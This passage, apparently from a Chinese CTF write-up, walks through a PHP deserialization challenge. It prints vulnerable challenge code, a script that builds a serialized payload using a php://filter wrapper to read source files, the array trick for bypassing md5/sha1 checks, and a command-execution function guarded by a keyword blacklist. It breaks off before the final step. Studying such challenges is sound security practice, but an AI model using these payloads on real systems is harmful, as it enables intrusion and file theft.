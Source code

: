 ```php
    function open($filename, $content){
        if(!file_get_contents('waf.txt')){    
            shell($content);
        }else{
            echo file_get_contents($filename.".php");    
        }
    }
}
if($_GET['a']!==$_GET['b']&&(md5($_GET['a']) === md5($_GET['b'])) && (sha1($_GET['a'])=== sha1($_GET['b']))){
    @unserialize(base64_decode($_POST['unser']));
}
```

第一步当然是利用`open`函数去读一下`shell.php`,注意php文件内容的读取都需要用伪协议。
```php
<?php
class Game
{
    public  $username;
    public  $password;
    public  $choice;
    public  $register;

    public  $file;
    public  $filename;
    public  $content;
    public function __construct()
    {   
        $this->register='admin';
        $this->username='admin';
        $this->password='admin';
        $this->file=new Open;
        $this->filename='php://filter/read=convert.base64-encode/resource=shell';
        $this->content='';
    }
}

class Open
{

}
    $demo=new Game;
    echo base64_encode(serialize($demo))."\n";
?>
```
a和b的绕过用数组即可。
拿到shell.php
```php
<?php
function shell($cmd){
    if(strlen($cmd)<10){
        if(preg_match('/cat|tac|more|less|head|tail|nl|tail|sort|od|base|awk|cut|grep|uniq|string|sed|rev|zip|\*|\?/',$cmd)){
            die("NO");
        }else{
            return system($cmd);
        }
    }else{
        die('so long!');
    }
}
```
重新回到index.php，发现要想命令执行，需要把当前目录下的`waf.txt`给删除才行，`index.php`中可以利用的点不多，我们遍历一下：